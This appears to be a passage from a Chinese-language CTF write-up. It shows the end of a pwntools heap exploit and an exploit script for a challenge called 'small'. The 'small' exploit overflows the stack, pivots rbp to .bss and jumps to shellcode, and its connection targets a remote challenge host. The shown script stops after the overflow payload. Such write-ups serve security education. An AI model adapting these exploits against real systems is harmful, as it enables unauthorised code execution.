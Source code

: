 ```python
z('b*$rebase(0xb97)')

change(0,stack-8)
change2(0x21)
add()
add()
change(3,'3435973836')
cho(6)

ia()
```



### small

栈溢出修改rbp到bss上并覆盖返回地址到read之前，实现栈迁移并写入shellcode，将bss地址覆盖返回地址

在kali上跑不了，好像是因为段的权限问题执行到bss段上的shellcode的时候会报错，在ubuntu上可以打通

exp:

```python
#!/usr/bin/python

from pwn import *
import sys
import time

context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='small'

e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('81.70.195.166',10002)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

z('b*main')
rbp = 0x402000+0x10
sl(b'a'*0x10+p64(rbp)+p64(0x401015))
```